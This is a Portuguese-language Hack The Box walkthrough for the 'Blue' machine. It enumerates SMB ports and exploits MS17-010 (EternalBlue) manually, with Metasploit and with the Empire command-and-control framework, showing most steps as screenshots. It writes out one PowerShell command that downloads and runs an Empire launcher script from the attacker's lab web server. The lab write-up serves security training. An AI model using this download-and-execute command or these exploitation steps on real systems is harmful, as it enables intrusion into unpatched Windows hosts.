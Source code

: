 ```yaml
---
title: "Hack The Box - Blue"
tags: [Windows,Easy,Empire,Auto-Blue,MS17-010,Eternal Blue,Metasploit Framework]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_inicial.png)

Link: <https://www.hackthebox.eu/home/machines/profile/51>

# Enumeração

## Primeiro passo é rodar o nmap contra a máquina, para verificar quais portas estão abertas e quais serviços estão sendo disponibilizados pelas portas.

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_nmap.png)


### Explicação de cada parâmetro do Nmap
> -sC --> Rodar alguns scripts padrão em cada porta

> -sV --> Levantar qual serviço está rodando na porta

> -Pn --> Já considera o host ativo

### Verificamos que temos várias portas abertas

Portas 135, 139 e 445
> Possivelmente portas relacionadas ao Samba

Sempre que vejo principalmente a porta 445 aberta em uma máquina Windows, já me acende uma luz que possivelmente a exploração é por essa porta, então vamos focar nela de inicio.

## Enumeração servidor na porta 445

Rodamos novamente o nmap com a flag *--script vuln* e encontramos algo interessante:

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_vuln.png)

Verificamos que vulnerável ao MS17-010, conhecido como Eternal Blue.

# Primeira maneira de explorar --> Manual (sem utilizar o Metasploit Framework)

Encontramos um exploit que realiza essa atividade

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_auto0.png)

### Fazemos uma cópia dele para nossa pasta de trabalho

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_auto1.png)

> Lendo com ele funciona, devemos criar os 'shells' com o `shell_prep.sh`, após isso criar os 'listeners' com o `listener_prep.sh` depois executar o script em Python do exploit

### Criamos os shells com o `shell_prep.sh`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_auto2.png)

### Criamos os listeners com o `listener_prep.sh`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_auto3.png)

### Executamos o script em python e ganhamos o shell da máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_auto4.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_auto5.png)

Comprovando o shell de Authority

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_auto6.png)

### Pegamos a flag de user e de root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_auto7.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_auto8.png)

# Segunda maneira de explorar --> Somente com o Metasploit Framework

Pesquisamos por todos os modulos disponíveis no Metasploit Framework para exploração da MS17-010

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_meta0.png)

### Vamos verificar se o Host é vulnerável ao MS17-10

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_meta1.png)

Costatamos que ele é vulnerável!

### Explorando e ganhando shell de Authority

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_meta2.png)

# Terceira maneira de explorar, utilizando o *Empire*

Pelo fato da máquina ser extremamente fácil, vou mostrar o funcionamento do `Empire` que é um servidor de *Comando e Controle*.
A ideia aqui não é utilizar o Empire para explorar a máquina, uma vez que para utilização dele já devemos possuir um shell ativo na máquina, ou pelos menos algum ponto de RCE. A ideia é massificar o conhecimento.

### Baixamos ele para nossa máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_empire0.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_empire1.png)

### Executamos o executável `empire`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_empire2.png)

#### Começamos a configuração e execução

##### Setamos o listener para HTTP e colocamos nosso IP e Porta

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_empire3.png)

##### Geramos o `launcher`, em outras palavras é o comando em powershell que a máquina invadida deverá executar para podermos ter acesso

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_empire4.png)

##### Passamos esse `launcher` para a máquina Blue, através de um servidor Web Python e comandos no powershelll

> powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.16.119/empire.ps1')

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_empire5.png)

##### Executamos o *empire.ps1* e recebemos a conexão de volta no `Empire`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_empire6.png)

### O que conseguimos fazer?

Conseguimos fazer uma diversidade de atividades com posse de um `agent` do Empire
Como por exemplo rodar comandos:

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_empire7.png)

### Podemos rodar módulos auxiliares, por exemplo

Listamos todos os módulos:

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_modules.png)

Temos por exemplo o *powerup*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_empire8.png)

Com a saida:

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blue/Blue_powerup.png)

